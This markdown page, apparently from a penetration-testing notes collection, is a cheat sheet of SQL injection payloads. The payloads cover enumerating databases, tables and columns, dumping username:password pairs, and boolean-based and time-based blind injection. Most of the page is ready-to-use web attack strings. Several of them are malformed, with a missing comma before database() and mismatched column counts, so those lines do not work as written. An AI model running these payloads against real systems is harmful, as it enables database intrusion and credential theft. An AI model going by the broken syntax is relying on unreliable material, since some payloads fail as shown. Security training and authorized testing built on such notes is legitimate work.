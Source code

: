 # Enumerating SQL Databases
Once you have fonud an sql injection vulnerability you can attempt to enumerate other databases, tables, and columns.

## Injection
Read [SQL Injection](../../Exploitation/Webservers/sql.md) if aren't sure where to start.

## Get Database Name
Get the current database using `database()`, enumerate other databases using `like`
```sh
0 UNION SELECT 1,2 database()

0 UNION SELECT 1,2 database() like '%';--
0 UNION SELECT 1,2 database() like '%a';--
0 UNION SELECT 1,2 database() like '%b';--
0 UNION SELECT 1,2 database() like '%c';--
```

## Get Tables
```sh
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = "<database_name>"
0 UNION SELECT 1,2 FROM information_schema.tables WHERE table_schema = "<database_name>" and table_name like 'a%';--
```

## Get Columns
```sh
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = "<table_name>"
0 UNION SELECT 1,2 FROM information_schema.columns WHERE table_schema = "<db_name>" and table_name = "<table_name>" and column_name like 'a%';
```

Once you have found a column, you'll need to exclude it from the next attempt:
```sh
0 UNION SELECT 1,2 FROM information_schema.columns WHERE table_schema = "<db_name>" AND table_name = "<table_name>" AND column_name LIKE 'a%' AND column_name != 'id';
```


## Retrieve Data
Enumerate data contained in database:

```sh
0 UNION SELECT 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM <table_name>
0 UNION SELECT 1,2 from users where username like 'a%';
0 UNION SELECT 1,2 from users where username = 'admin' and password like 'a%';
```

## Blind SQLi
Things get interesting when you can't see the results of your tests. 

### Boolean Based
Most applications will run a simple check that returns a boolean (true / false) response. This could be to see if a username exists or authentication related. 

When enumerating columns, tables, and fields you will need to look for that `true` response.
```sh
0 UNION SELECT 1;--
0 UNION SELECT 1,2 database() like '%a';--
```

### Time Based
Introduce a time delay into your queries to test for a successful attack. If the application is delayed by +5 seconds, you have succeeded.
```sh
0 UNION SELECT Sleep(5);--
0 UNION SELECT sleep(5),2 from users where username like 'a%';
```


